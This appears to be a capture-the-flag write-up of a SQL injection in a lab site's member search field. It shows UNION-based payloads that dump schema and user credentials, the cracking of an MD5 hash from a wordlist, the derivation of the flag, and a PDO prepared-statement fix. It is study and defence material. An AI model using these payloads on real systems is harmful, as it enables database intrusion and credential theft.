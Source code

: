 # SQL injection on the member search field in the members page

## Description
We identified a security vulnerability in the input field located at `http://IP/index.php?page=member`.

Entering certain input, such as `union` triggers a SQL error that indicates SQL expressions are treated as intended rather than being escaped or treated as regular strings. This vulnerability allows us to exploit the system and extract data from the database by sending requests through the input field.<br />
<br />
Since the input field expects an ID number, the corresponding SQL query should resemble:
```
SELECT first_name, last_name FROM users WHERE users.user_id = ${input_value}
```
This query prints the first name and last name of the member with the given member ID. Since we don't need the website to display data about any specific member, we can choose the ID `-1`, which is unlikely to match any existing ID.<br />
<br />
To append our request after the original query, we can use the `UNION` operator, which combines the result sets of two or more `SELECT` statements:
```
SELECT first_name, last_name FROM users WHERE users.user_id = -1 UNION SELECT XXX FROM XXX
```
This allows us to execute our exploit immediately after the original request.<br />
<br />
We aim to retrieve data from the `information_schema`. In SQL, `information_schema` is a schema providing metadata about database objects. We are particularly interested in the `table_name` and `column_name` columns from `information_schema.columns` to understand the general structure of the database.<br />
<br />
With this in mind, we have:<br />
<br />
INPUT:
```
-1 UNION SELECT table_name, column_name FROM information_schema.columns
```

OUTPUT:
```
ID: -1 UNION select table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign
```

The result reveals a `users` table and two interesting columns: `Commentaire` and `countersign`. Subsequently, we will send the following request to retrieve these two fields from all users in the database:<br />
<br />
INPUT:
```
-1 UNION SELECT commentaire, countersign FROM users
```

OUTPUT:
```
ID: -1 union select commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Since the password appears to be a hash, we need to determine the hash type before obtaining the original string. For this, we will use the hash-identifier tool on Kali Linux:
```
user@kali:~$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 5ff9d0165b4f92b14994e5c685cdce28

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Now, it has been determined that the password is likely hashed with `MD5`. We will proceed to generate a word list in `wordlist.txt` and create a script named `md5comparer.sh`. The script will hash each word from the word list using MD5 and compare the generated hashes with the password until a match is found:
```
user@kali:~$ bash md5comparer.sh wordlist.txt 5ff9d0165b4f92b14994e5c685cdce28
no match found for: 'quarantedeux'
no match found for: 'quarante-deux'
no match found for: 'quarante_deux'
no match found for: 'Quarante-Deux'
no match found for: 'QuaranteDeux'
no match found for: '42'
no match found for: 'fortytwo'
no match found for: 'forty-two'
no match found for: 'forty_two'
no match found for: 'Forty-Two'
HASHES MATCH FOR: 'FortyTwo'
Found match, exiting...
```
Here, a match is found for `FortyTwo`. Let's recall the discovered instruction:
```
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

We will, therefore, convert all the characters to lowercase: `FortyTwo -> fortytwo`

...and hash it with SHA-256:
```
user@kali:~$ echo -n "fortytwo" | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  -
```
Thus, the flag is `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`.

## Security measures
Inspecting the HTML code, this line:
```
<a href="index.php">Home</a>
```
reveals that the website is coded in `PHP`.<br />
To avoid SQL injection in PHP, it is recommended to use `prepared statements` with `parameterized queries`. Below are examples demonstrating how to use prepared statements in PHP with MySQL using the `PDO extension`:

```
// Connect to database
$conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

// Example with positional parameters
$userInput = "John";
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$userInput]);
   
// Example with named parameters
$userInput = "John";
$stmt = $conn->prepare("SELECT * FROM users WHERE username = :username");
$stmt->execute(['username' => $userInput]);
```
In both examples, the user input is properly bound to the SQL query using placeholders (`?` for positional parameters or `:username` for named parameters). This way, the input is treated as data, preventing SQL injection attacks.